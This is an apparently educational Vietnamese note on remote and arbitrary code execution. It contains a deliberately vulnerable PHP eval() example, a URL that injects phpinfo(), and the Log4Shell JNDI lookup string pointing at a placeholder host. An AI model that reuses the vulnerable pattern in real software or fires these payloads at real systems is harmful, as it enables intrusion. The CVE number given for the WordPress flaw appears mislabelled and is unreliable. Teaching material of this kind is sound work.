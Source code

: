 
# Tổng quan
- Code Excution là thuật ngữ chung để chi việc thực thi bất kì đoạn mã nào trên hệ thống

# Biến thể của Code Excution 

**1. RCE**

**a) Định nghĩa**

- RCE ( Remote Code Excution ) là 1 biến thể của Code Excution cho phép kẻ tấn công thực thi mã từ xa mà không cần quyền hợp lệ

**b) Tác động**

- Lỗ hổng RCE có thể gây ra những tác động nghiêm trọng đến hệ thống, ứng dụng: bao gồm: xâm nhập, lep thang đặc quyền, tiết lộ dữ liệu nhạy cảm, DoS, khai thác tiền điện tử, tóng tiền

**c) Ví dụ**

```
<?php eval("echo ".$_GET["user"].";"); ?>
```

Người phát triển có thể nghĩa rằng người dùng chỉ nhập tên người dùng hợp lệ làm tham số cho URL

```
http://www.example.com/index.php?user=admin
```

Sau đó, ứng dụng sẽ chạy giá trị tham số dưới dạng mã

```
echo admin;
```
và in tên người dùng

Kẻ tấn công có thể chèn mã độc vào bằng cách chèn dấu `;` vào đằng sau URL

```
http://www.example.com/index.php?user=admin;phpinfo();
```

Sau đó, đoạn code sẽ được thực thi như sau

```
echo admin;
phpinfo();
```

d) Các loại tấn công RCE

- Các loại tấn công phổ biến nhất là :
  - Tấn công Injection
  - Tấn công Deserialization: nếu ứng dụng không kiểm tra kĩ dữ liệu đầu vào từ người dùng, dữ iệu được chuỗi hóa có thể chứa mã độc và khi được deserialization, mã này sẽ được thực thi ( Deserialization là quá trình chuyển đổi chuỗi dữ liệu (byte stream) trở về đối tượng, cấu trùng dữ liệu ban đầu ( object, list,...)
  - Ghi ngoài giới hạn (Outs-of-bounds write): đây là lỗi quản lý bộ nhớ xảy ra khi chương trình ghi dữ liệu vượt ra ngoài vùng bộ nhớ đệm ( Ví dụ: nếu bộ nhớ được cấp chỉ đủ lưu 10 byte nhưng chương trình cố ghi vào 20 byte, các byte bổ sung sẽ ghi đè lên bộ nhớ lân cận.
 
e) Ví dụ về một số lỗ hổng đã biết

- CVE-2021-44228 (Log4Shell): lỗ hổng xảy ra ở tích năng kết nối dịch vụ thông qua JNDI bằng cách sử dụng URL. Log4j không cung cấp bộ lọc nào để loại trừ các URL không xác định. Điều này xảy ra vì Log4j chứa cú pháp đặc biệt theo hình thức `${prefix:name}`. Ví dụ `${java:version}` là phiên bản Java đang chạy hiện tại, `${env:PATH}` lấy thông tin biến môi trường. Điều này rủi ro vì khi gặp chuỗi `${jndi:ldap://example.com/a}`, Log4j sẽ tự động kết nối với URL này

- CVE-2021-1844: đây là lỗ hổng bảo mật trong WordPress trước 5.0.1. Kẻ tấn công có quyền tác giả có thể tải lên 1 hình ảnh được tạo đặc biệt chứa mã PHP trong metadata Exif ( ứng dụng phân tíhc, quản lý hình ảnh )

**2. ACE**

- ACE ( Arbitrary Code Execution ) là khả năng kẻ tấn công thực thi bất kì mã tùy ý nào trên hệ thống ( có thể thực hiện cục bộ hoặc từ xa )
